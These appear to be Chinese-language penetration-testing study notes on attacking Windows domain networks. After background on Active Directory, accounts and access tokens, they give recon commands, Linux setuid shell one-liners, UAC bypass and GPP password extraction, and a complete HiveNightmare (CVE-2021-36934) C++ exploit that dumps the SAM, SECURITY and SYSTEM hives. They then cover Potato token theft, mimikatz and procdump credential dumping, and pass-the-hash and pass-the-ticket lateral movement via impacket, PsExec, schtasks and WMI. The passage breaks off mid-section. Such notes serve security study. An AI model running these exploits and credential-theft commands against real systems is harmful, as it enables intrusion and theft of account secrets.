







## 1、工作组

命令提示符界面执行 systeminfo，回显结果的 “域” 信息为 `WORKGROUP` ，资产规模较小，各个主机地位平等，内网渗透时需要逐个渗透


## 2、域环境

执行 systeminfo 回显类似域名形式，在域环境中，域管理员具有最高访问权限和管理权限，类似于树，域环境也有单个域，父域和子域，多个域通过建立信任关系组成的域树、域林。

### (1) 域控制器

Domain Controller , DC 是域环境核心的服务器计算机，用于在域中处理身份认证，处理资源访问请求，对用户进行身份验证， 提供 DNS 服务等，DC 包含一个目录数据库，存储整个域的账户、凭证等信息。 一个域环境可以有一个或者多个 DC 。

### (2) 活动目录 AD

Active Directory , AD 存储域环境中各种对象的信息，例如用户、用户组、计算机、共享资源、安全策略等，目录数据存储在 DC 的 Ntsd.dit 文件中。提供计算机集中管理、用户集中管理、资源集中管理、环境集中管理、应用集中管理功能，能够对用户进行统一身份认证，资源访问授权，计算机环境配置，应用，补丁下发等

域的基本对象：

- DC
- computer
- builtin
- user 

Ntds.dit 文件是域控保存的一个二进制文件，是主要的活动目录数据库，存放在域控的 %SystemRoot%\NTDS 目录下，包含有关域用户、密码哈希、用户组信息、组成员、组策略信息；使用存储在系统 SYSTEM 文件中的密钥对这些敏感信息进行加密。 工作组环境中，这些敏感信息存储在每个主机的 SAM 文件中。

### (3) 域内账户

#### 0. 本地账户

存储在本地服务器上，默认本地账户是内置账户 Administrator Guest 等，默认本地账户不提供对网络资源的访问。

**guest** 账户在windows安装过程创建，SID为 `S-1-5-21-XX-501`，但该账户默认禁用， guest 账户允许在计算机上没有账户的临时用户登陆本地服务器或客户端主机，默认情况下该账户密码为空。

同样还有 defaultaccount WDAGUtilityAccount  这些



#### 1. 用户账户

- **特征**：拥有明文密码（或 PIN、生物识别），需要通过**交互式登录**（输入账号密码）来访问系统。
- **用途**：
    - 员工登录自己的电脑。
    - 访问共享文件夹、企业邮箱、业务系统。
    - 管理员执行日常运维操作。
- **生命周期**：随员工入职创建，离职禁用；密码通常有有效期。

#### 2. 机器账户

- **定义**：代表加入域的一台计算机（无论是服务器还是普通员工的PC）。
- **特征**：
    - 在 AD 中，名字以 **`$`** 结尾，例如 `WIN10-PC01$`、`SQL-SERVER01$`。
    - **密码是由系统自动管理的**（默认每30天自动更改一次，密码极其复杂，长达120个字符）。
    - 不能用于人工交互式登录（不能用机器账户的密码登录电脑桌面）。
- **用途**：当一台电脑开机时，它会用机器账户向 AD 证明“我是合法的域内计算机”，从而建立一条**安全通道（Secure Channel）**，这台电脑才能应用组策略（GPO），访问网络资源。

#### 3. 服务账户

- **定义**：专门用于运行后台服务、计划任务、IIS应用程序池的账户
- **分类**：
    - **内置系统账户**：如 `LocalSystem`、`NetworkService`、`LocalService`（不需要密码，权限很高，但只能在本地机器使用）。
    - **普通用户账户作为服务账户**：管理员随手建一个普通用户（如 `svc_sql`），赋予它“作为服务登录”的权限，用来运行 SQL Server
    - **托管服务账户（MSA / gMSA）**：AD 的高级功能。由 AD 自动管理密码轮换，专门用于运行服务，安全性最高。

### (4)  组

**1. 组的作用与分类**

- **本质**：组是用户账号的集合，主要用于**简化权限管理**（直接向组赋权，将需要使用该权限的用户放入该组）。
- **分类**：
    - **通讯组**：用于群发消息（邮件、Teams消息等），没有安全权限。
    - **安全组**：用于分配权限（ACL），也可以当作通讯组使用。

**2. 安全组的三大作用域**

| 组类型       | 成员来源                         | 作用范围（赋权范围） | 最佳实践场景                                 |
| :----------- | :------------------------------- | :------------------- | :------------------------------------------- |
| **域本地组** | 全林任何域（用户/全局组/通用组） | **本域**             | 用来给**本域的资源**分配权限。               |
| **全局组**   | **本域**（用户/全局组）          | **全林**             | 用来**组织本域的用户**，方便被其他域引用。   |
| **通用组**   | 全林任何域                       | **全林**             | 全林通用，但会产生大量AD复制流量，极少使用。 |

**全局组： **本域用户的包装盒，设计出来是为了跨域被引用的。全局组的成员只能是本域用户和本域全局组，但它的作用范围是全林（可以被任何域看到并引用）

权限分配体系中，AGDLP ，不同域之间需要合作处理一些问题，需要访问 A 域内的一些资源，那么 B C 域可以分别建立全局组，然后 A 域建立本地组，全局组加入本地组，然后对 A 域本地组赋予资源访问权限。




### (5) 访问控制

#### 1. 访问令牌

访问令牌一般包含：

- **用户 SID**：当前登录用户的唯一安全标识符。
- **组 SID 列表**：用户所属的所有安全组。
- **登录 SID**：本次登录会话的标识。
- **特权列表**：如备份文件、调试程序、关闭系统等系统特权。
- **默认 DACL**：创建新对象时默认继承的访问控制列表。
- **完整性级别**：低、中、高、系统等，用于强制完整性控制。
- **令牌类型**：主令牌或模拟令牌。
- **会话 ID**：标识当前登录会话。

用户登录成功后，系统创建访问令牌，之后该用户启动的每个进程都会持有这个令牌的副本，线程在访问安全对象时，系统就用它来判断 是谁、属于哪些组、有什么卡模型。

#### 2. 安全描述符的结构

安全描述符是每个安全对象都有的数据结构，通常包括：

| 组成部分  | 作用                                     |
| :-------- | :--------------------------------------- |
| Owner SID | 对象所有者，通常可以修改权限             |
| Group SID | 主要用于 POSIX 兼容，Windows 中较少使用  |
| DACL      | 自主访问控制列表，决定谁能访问、怎么访问 |
| SACL      | 系统访问控制列表，决定记录哪些访问行为   |
| 控制标志  | 如 DACL 是否存在、是否继承、是否受保护等 |

#### 3. 访问检查流程

当主体访问对象时，大致流程是：

1. 系统获取主体的访问令牌。
2. 系统获取对象的安全描述符。
3. 将令牌中的用户 SID、组 SID 与对象 DACL 中的 ACE 逐条比较。
4. 如果遇到“拒绝”ACE，且匹配主体，则拒绝访问。
5. 如果没有拒绝，再检查“允许”ACE，累积所需权限。
6. 如果权限足够，则允许访问；否则拒绝。
7. 如果对象没有 DACL，则默认允许所有访问。
8. 如果配置了 SACL，则根据 SACL 记录成功或失败的访问事件。


## 3、信息收集

本机基础信息收集

- 用户与权限：使用 whoami /all 查看当前用户权限及特权，net user 和 net localgroup administrators

    查看本地用户及管理员组信息，query user 查看当前登录用户。

- 网络与系统配置：使用 ipconfig /all 查看网络配置及DNS（DNSIP通常指向域控），route print 查看路由表，systeminfo 收集操作系统版本、域环境及补丁信息。

- 连接与进程：使用 netstat -ano 查看端口与网络连接，net session 和 net share 查看会话与共享；使用 tasklist 或 wmic process 收集进程信息。

- 服务、计划任务与自启：通过 wmic 收集服务 (wmic service)、自启程序 (wmic startup)、补丁 (wmic qfe)

- 和软件安装信息 (wmic product)；使用 schtasks 查看计划任务。

域内信息收集

- 判断与基础查询：net config workstation 判断当前是否处于域环境

- 用户与组信息：使用 net user /domain、net group /domain 以及 net group "Domain Admins" /domain

    查询域内用户、用户组及域管理员。

- 域控与网络架构：查询密码策略 (net account /domain)，查找域控 (net group "Domain Controllers" /domain)及主域控（通常为主时间服务器 net time /domain），通过 ping 域名定位域控IP，使用 nltest /domain_trusts 查询域信任关系。

内网信息收集 (待权限维持做好之后再进行这种扫描)

- 统一使用 fscan 等各种工具扫描

分析域环境信息

- BloodHound 工具

上述信息收集可以得知当前用户权限，所处位置，有什么新的网段信息，DC 信息，如果当前用户处于低权限，那么下面需要进行权限提升，如果处于一个高权限，则可以直接抓取本机的一些凭据，通过这些凭据进行横向移动，实现的基础是隧道代理，这方面一是可以使用 ssh proxychain4 frp 等工具搭建多层隧道，也可以通过 c2 工具上线靶机搭建隧道（后者更方便一些）。


## 4、权限提升/维持

peass 内置大量权限提升的检测途径，以及方法执行，因此下面只讲一些目前打靶场，CTF，实际场景中遇到的



### (1) Linux 提权

因为 CTF 中接触到的都是 Linux 环境，所以对此很熟悉，基本可分为以下几类

#### 1. Linux 内核提权，各种 CVE 

#### 2. sudo 提权

配置不当提权，某个 CVE 可以利用；某个shell脚本设置为sudo免密执行，低权限用户对该文件可写,则可提权；sudo 缓存

#### 3. suid 配置不当

https://gtfobins.org/ 该网站可查询相关信息

#### 4. LD_PRELOAD 提权

#### 5. tar  rsync chown 参数注入

#### 6. 环境变量劫持

将系统二进制程序劫持到我们写入的二进制程序，通过修改 $PATH ；然后查询存在 suid 权限的程序，我们写入的二进程程序和其同名，当系统通过高权限执行的时候实际上执行的是我们写入的恶意程序

#### 7. Capabilities 配置不当

给一些语言赋权 cap_setuid ，通过类似这样的方式提权 `python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'` ；`node -e ‘process.setuid(0);child_process.spawn("/bin/bash",{stdio:[0,1,2]})’`

### (2) Windows 提权

#### 1. UAC 绕过

微软在UAC中为一部分系统程序设置了白名单，白名单中的程序能够用静默的方式自动提升到管理员权限运行，比如rundll32.exe、explorer.exe  可以通过微软官方提供的工具Sigcheck和Strings来寻找白名单程序，白名单程序的Mainifest数据中autoElivate属性值为true 。对这些白名单程序进行 DLL 劫持（将同名恶意dll的位置放在合法dll的搜索目录之前）实现 Bypass UAC，

利用 Windows 系统对提权程序进行安全校验时的逻辑缺陷。一个程序想要静默提权，通常需要满足三个条件：

1. 自身属性合法： 程序的 Manifest 清单中包含 autoElevate=True 属性
2. 签名合法： 拥有微软官方的有效数字签名
3. 位置合法： 必须位于系统的可信任目录（如C:\Windows\System32）

检查是否为系统信任目录时会除去空格，导致  C:\Windows \System32 也能通过检验，那么可以创建这个目路，放入一个白名单额度 explorer.exe ，然后写入恶意 dll 。

#### 2. 注册表配置不当

AlwaysInstallElevated 策略，制作恶意 msi ，安装

低权限用户可修改 ImagePath ，将原本它指向的合法的服务程序改为指向自己准备好的恶意程序

#### 3. 机制缺陷问题

- sysprep.xml  Unattend.xml 上述敏感文件可能存有管理员密码

- 早期 Windows Server 允许域管理员通过组策略首选项（GPP）批量修改域内主机的本地管理员密码。这些策略更新会以 XML 文件的形式存储在域控的 SYSVOL 共享目录中。SYSVOL 默认对所有经过身份验证的域用户开放读取权限。XML 文件中的密码字段（cpassword）虽然使用了 AES-256 加密，但微软在官方文档（MSDN）中公开了该加密算法的全局静态私钥。这意味着任何域用户只要读取到该 XML文件，就可以使用公开的密钥解密出密码。

```
findstr /s /i "cpassword" C:\Windows\SYSVOL\*.xml
```

然后解密 https://raw.githubusercontent.com/leonteale/pentestpackage/master/Gpprefdecrypt.py 

- CVE-2021-36934

注册表配置目录 C:\windows\system32\config ACL配置错误，赋予了所有普通用户读权限。系统运行中关键文件SAM、SYSTEM被内核锁定无法直接复制，但如果系统开启了卷影复制服务（在特定时间点为计算机的文件或整个磁盘卷创建一致性的快照的服务），普通用户可以直接从卷影副本中读取并导出这些高价值文件，提取本地用户的 NTLM Hash。 

检测指令



```cpp
#include <windows.h>
#include <io.h>
#include <fcntl.h>
#include <iostream>
#include <string>
#include <memory>
#include <sstream>
#include <vector>

// RAII 包装 HANDLE，自动关闭
struct HandleDeleter {
    void operator()(void* h) const {
        if (h != nullptr && h != INVALID_HANDLE_VALUE) {
            CloseHandle(static_cast<HANDLE>(h));
        }
    }
};
using UniqueHandle = std::unique_ptr<void, HandleDeleter>;

// 在卷影副本中查找最新版本的目标文件，返回其句柄
UniqueHandle getVssFileHandle(const std::wstring& path, int maxSearch) {
    const std::wstring base = L"\\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy";
    UniqueHandle bestHandle;
    FILETIME youngest = {0, 0};

    for (int i = 1; i <= maxSearch; ++i) {
        std::wstring fullPath = base + std::to_wstring(i) + L"\\" + path;
        HANDLE h = CreateFileW(fullPath.c_str(), GENERIC_READ, 0, nullptr,
                               OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
        if (h == INVALID_HANDLE_VALUE) continue;

        FILETIME creation, access, write;
        if (GetFileTime(h, &creation, &access, &write)) {
            if (CompareFileTime(&youngest, &write) < 0) {
                bestHandle.reset(h);   // 自动关闭旧句柄
                youngest = write;
                std::wcout << L"Newer file found: " << fullPath << std::endl;
            } else {
                CloseHandle(h);
            }
        } else {
            CloseHandle(h);
        }
    }
    return bestHandle;
}

// 将源句柄内容复制到目标文件
bool dumpHandleToFile(HANDLE handle, const std::wstring& dest) {
    HANDLE hAppend = CreateFileW(dest.c_str(), FILE_APPEND_DATA, FILE_SHARE_READ,
                                 nullptr, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (hAppend == INVALID_HANDLE_VALUE) {
        std::wcout << L"Could not write " << dest
                   << L" - permission issue rather than vulnerability issue, "
                      L"make sure you're running from a folder where you can write to"
                   << std::endl;
        return false;
    }

    BYTE buff[4096];
    DWORD dwBytesRead, dwBytesWritten, dwPos;
    while (ReadFile(handle, buff, sizeof(buff), &dwBytesRead, nullptr) && dwBytesRead > 0) {
        dwPos = SetFilePointer(hAppend, 0, nullptr, FILE_END);
        LockFile(hAppend, dwPos, 0, dwBytesRead, 0);
        WriteFile(hAppend, buff, dwBytesRead, &dwBytesWritten, nullptr);
        UnlockFile(hAppend, dwPos, 0, dwBytesRead, 0);
    }
    CloseHandle(hAppend);
    return true;
}

// 获取文件最后写入时间，格式化
std::wstring getFileTimeStr(HANDLE handle) {
    FILETIME creation, access, write;
    SYSTEMTIME st;
    if (!GetFileTime(handle, &creation, &access, &write)) {
        return L"";
    }
    FileTimeToSystemTime(&write, &st);
    wchar_t buf[32] = {0};
    GetDateFormatW(LOCALE_USER_DEFAULT, 0, &st, L"yyyy-MM-dd", buf, 32);
    return buf;
}

int wmain(int argc, wchar_t* argv[]) {
    _setmode(_fileno(stdout), _O_U16TEXT);

    int searchDepth = 15;
    if (argc > 1) {
        std::wistringstream wss(argv[1]);
        if (!(wss >> searchDepth)) {
            std::wcout << L"\nUsage: HiveNightmare.exe [max shadows to look at (default 15)]\n\n";
            return -1;
        }
    }

    std::wcout << L"\nHiveNightmare - dump registry hives as non-admin users\n\n"
               << L"Specify maximum number of shadows to inspect with parameter if wanted, default is 15.\n\n"
               << L"Running...\n\n";

    struct Target {
        const wchar_t* path;
        const wchar_t* prefix;
    };
    Target targets[] = {
        { L"Windows\\System32\\config\\SAM",      L"SAM"      },
        { L"Windows\\System32\\config\\SECURITY", L"SECURITY" },
        { L"Windows\\System32\\config\\SYSTEM",   L"SYSTEM"   }
    };

    for (const auto& target : targets) {
        auto hFile = getVssFileHandle(target.path, searchDepth);
        if (!hFile) {
            std::wcout << L"Could not open " << target.prefix
                       << L" :( Is System Protection not enabled or vulnerability fixed?  "
                          L"Try increasing the number of VSS snapshots to search - "
                          L"list snapshots with vssadmin list shadows\n";
            return -1;
        }

        std::wstring fileTime = getFileTimeStr(hFile.get());
        std::wstring fileName = std::wstring(target.prefix) + L"-" + fileTime;

        if (dumpHandleToFile(hFile.get(), fileName)) {
            std::wcout << std::endl << L"Success: " << target.prefix << L" hive from "
                       << fileTime << L" written out to current working directory as "
                       << fileName << std::endl << std::endl;
        } else {
            return -1;
        }
    }

    std::wcout << std::endl
               << L"Assuming no errors above, you should be able to find hive dump files "
                  L"in current working directory." << std::endl;

    return 0;
}
```

```bash
x86_64-w64-mingw32-g++ -std=c++17 -municode -o HiveNightmare.exe HiveNightmare.cpp -static
```

#### 4. 系统服务缺陷

- 低权限用户对高权限下运行的系统服务拥有更改服务配置的权限（SERVICE_CHANGE_CONFIG或SERVICE_ALL_ACCESS），即可通过该低权限用户修改服务启动时的二进制文件路径，通过修改服务启动文件的路径“ binpath”，将其替换为恶意程序 https://learn.microsoft.com/zh-cn/sysinternals/downloads/accesschk ，该工具可以枚举目标主机上存在权限缺陷的系统服务。

- 若主机存在错误配置或操作，使一个低权限用户对此服务调用的二进制文件或其所在目录有写权限，则可以将该文件替换为恶意后门文件，随服务启动继承系统权限

#### 5. 令牌窃取

通过 Web 漏洞（如文件上传、反序列化）或数据库弱口令成功打点并获取 Shell 后，拥有的只是一个服务账户例如`NetworkService`和`LocalService`, 它们权限很低，但是WEB服务和数据库服务默认赋予 SeImpersonatePrivilege  SeAssignPrimaryTokenPrivilege/SeIncreaseQuotaPrivilege 特权

通过 `whoami /priv` 查看当前用户权限

**特权**：

- **`SeImpersonatePrivilege`**：允许程序模拟其他用户（如 SYSTEM）的安全上下文。
- **`SeAssignPrimaryTokenPrivilege`**：允许程序将令牌分配给新创建的进程。

**利用**：

- 当高权限服务（如 SYSTEM 运行的服务）连接到低权限进程提供的通信通道（如命名管道、RPC 接口）时，低权限进程可以调用 API 捕获该连接的安全上下文。
- **典型 API**：
    - `ImpersonateNamedPipeClient()`：模拟连接到命名管道的客户端。
    - `OpenThreadToken()` / `OpenProcessToken()`：获取对应线程/进程的令牌。
    - `DuplicateTokenEx()`：将模拟令牌复制为主要令牌。
    - `CreateProcessWithTokenW()` 或 `CreateProcessAsUserW()`：使用高权限令牌创建新的 SYSTEM 进程。

该操作用来将管理员权限提升至 SYSTEM、TrustedInstaller 等更高权限。

这里需要提到 Potato 家族：PrintSpoofer、GodPotato等

**Hot potato** 

早期系统对本地网络的 NTLM 认证防范较弱，通过伪造本地代理，拦截系统中以 SYSTEM 权限运行的服务（如 Windows Update）发出的 HTTP请求，并要求其进行 NTLM 认证。拿到 HTTP 形式的 NTLM 请求后，由于当时系统并未限制 HTTP 到 SMB 的跨协议中继，攻击者直接将其 Relay 到本机的 SMB 服务，从而获取高权限。

**Rotten Potato & Juicy Potato** 

利用 Windows 的 DCOM（分布式组件对象模型）机制，主动强制 SYSTEM 权限的服务向外发起 NTLM 认证，攻击者在本地实例化一个具有 SYSTEM 权限的 COM 对象，并通过 DCOM 接口诱导该服务向本地的 TCP 135 端口（RPC 服务默认端口）发起认证，攻击者充当中间人完成协商。 Juicy Potato 在 Rottern Potato 的基础上允许攻击者自定义监听端口，并发现了大量以 SYSTEM 权限运行的 CLSID ， 只要在目标系统上找到一个可用的高权限 CLSID，就可以提权。

https://ohpe.it/juicy-potato/CLSID/ 记录了一些 CLSID ，通过 systeminfo 查询系统信息，然后找对应的 CLSID , 也有一些可以用于枚举的工具。

**Pipe Potato**

Windows 中的 Print Spooler 服务默认以 `SYSTEM` 权限运行，并对外暴露 RPC 接口。其中 `RpcRemoteFindFirstPrinterChangeNotification` / `RpcRemoteFindFirstPrinterChangeNotificationEx` 允许调用者指定一个远程机器名，Spooler 会主动连接该机器的 `\pipe\spoolss` 命名管道以发送通知。

预先创建  `\\.\pipe\foo\pipe\spoolss` 恶意管道，等连接之后调用 ImpersonateNamedPipeClient API 窃取 SYSTEM 令牌

**God Potato**

利用 Windows API 新建一个 RPC 服务端，然后伪造 COM 对象引用，放入刚才新建的 RPC 服务地址，然后请求操作系统激活一个合法的高权限系统组件，同时将刚才伪造的COM 对象引用数据流作为参数传递进去。当系统去处理该请求时，会携带 SYSTEM 令牌。

**利用**

使用 `sc query Spooler` 查看 print Spooler 服务是否开启，如果开启通常使用 PrintSpoofer ，

```
PrintSpoofer64.exe -i -c cmd
```



不开启则使用 GodPotato  GodPotato 提供的反向 shell 并不稳定。有时候无法成功实现反向 shell 功能

```
GodPotato.exe -cmd "cmd /c whoami"
```

如果拥有  **SeDebugPrivilege** 特权，可以直接从高权限进程中窃取令牌 ，使用 Mimikatz 可以做到这些。

## 5、token 凭据收集

**SAM 文件**

提权然后导出 sam 凭据

```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit
```

离线导出

```
Set-ExecutionPolicy Unrestricted
Import-Module .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "C:\windows\System32\config\SAM" -LocalDestination C:\temp\SAM
Invoke-NinjaCopy -Path "C:\windows\System32\config\SAM" -LocalDestination C:\temp\SYSTEM

```

**lsass 进程**

提权然后导出凭据

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```

使用官方工具导出凭据，然后离线状态解析

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords full" exit
```

本地应用凭据

```
cmdkey /list
```



第三方应用凭据

todo......

## 6、横向移动

这里我大致分为两个方向，一个是基于 windows 原生服务做横向移动，另外一个是基于第三方应用服务做横向移动，至于是基于漏洞，还是配置不当，还是正常服务进行是二级子分类了，不做过多详细描述。 用的比较多的工具有 mimikatz impacket 等

主要为 139 445 3389 5985 端口



impacket 工具对 pth 支持比较好，

#### (1) SMB

##### 1. 凭据：明文密码

- 工具：系统自带、Impacket
- 指令：

```
net use \\<target_ip>\IPC$ /user:<domain>\<user> <password>
whoami
hostname
net use \\<target_ip>\IPC$ /delete
```


```
impacket-smbclient <domain>/<user>:<password>@<target_ip>
```


##### 2. 凭据：NTLM 哈希

- 工具：mimikatz（派生会话）、Impacket（直接传哈希）
- 方式一（原生工具路线）：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:cmd.exe
```

新窗口里：

```
net use \\<target_ip>\C$
whoami
hostname
```

- 方式二（Impacket 路线，不依赖本地 LSA）：

```
impacket-smbclient -hashes :<ntlm-hash> <domain>/<user>@<target_ip>
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # kerberos::ptt <kirbi_file>
```

```
net use \\<target_ip>\C$
whoami
```

- 方式二（Linux）：

```
export KRB5CCNAME=<ccache_file>
impacket-smbclient -k -no-pass <target_ip>
```

------

#### (2) Windows 服务（SCM）→ PsExec

> 前提：**账号是目标本地管理员**

##### 1. 凭据：明文密码

- 工具：系统自带 `sc`、PsExec、Impacket
- 指令：

```
sc \\<target_ip> query
sc \\<target_ip> qc Spooler
whoami
hostname
```

```
PsExec.exe \\<target_ip> -u <domain>\<user> -p <password> cmd /c "whoami && hostname"
```

```
impacket-psexec  <domain>/<user>:<password>@<target_ip> "whoami && hostname"
impacket-smbexec <domain>/<user>:<password>@<target_ip> "whoami && hostname"
```

##### 2. 凭据：NTLM 哈希

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:cmd.exe
```

```
sc \\<target_ip> query
whoami
hostname
```

- 方式二：

```
impacket-psexec  -hashes :<ntlm-hash> <domain>/<user>@<target_ip> "whoami && hostname"
impacket-smbexec -hashes :<ntlm-hash> <domain>/<user>@<target_ip> "whoami && hostname"
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # kerberos::ptt <kirbi_file>
```

```
sc \\<target_ip> query
whoami
```

- 方式二：

```
export KRB5CCNAME=<ccache_file>
impacket-psexec -k -no-pass <target_ip> "whoami && hostname"
```

------

#### (3) 计划任务

##### 1. 凭据：明文密码

- 工具：`schtasks`、Impacket
- 指令：

```
schtasks /create /s <target_ip> /u <domain>\<user> /p <password> /tn "<domain>\CheckIdentity" /sc ONCE /st 23:59 /tr "cmd /c whoami > C:\Windows\Temp\lab.txt && hostname >> C:\Windows\Temp\lab.txt" /ru SYSTEM
schtasks /run /s <target_ip> /tn "<domain>\CheckIdentity"
whoami
hostname
schtasks /delete /s <target_ip> /tn "<domain>\CheckIdentity" /f
```

```
impacket-atexec <domain>/<user>:<password>@<target_ip> "whoami && hostname"
```

##### 2. 凭据：NTLM 哈希

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:cmd.exe
```

```
schtasks /query /s <target_ip>
whoami
hostname
```

- 方式二：

```
impacket-atexec -hashes :<ntlm-hash> <domain>/<user>@<target_ip> "whoami && hostname"
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # kerberos::ptt <kirbi_file>
```

```
schtasks /query /s <target_ip>
whoami
```

- 方式二：

```
export KRB5CCNAME=<ccache_file>
impacket-atexec -k -no-pass <target_ip> "whoami && hostname"
```

------

#### (4) WMI

##### 1. 凭据：明文密码

- 工具：`wmic`、Impacket
- 指令：

```
wmic /node:<target_ip> /user:<domain>\<user> /password:<password> process call create "cmd.exe /c whoami > C:\Windows\Temp\lab-wmi.txt"
whoami
hostname
```

```
impacket-wmiexec <domain>/<user>:<password>@<target_ip> "whoami && hostname"
```

##### 2. 凭据：NTLM 哈希

- 工具：mimikatz、Impacket
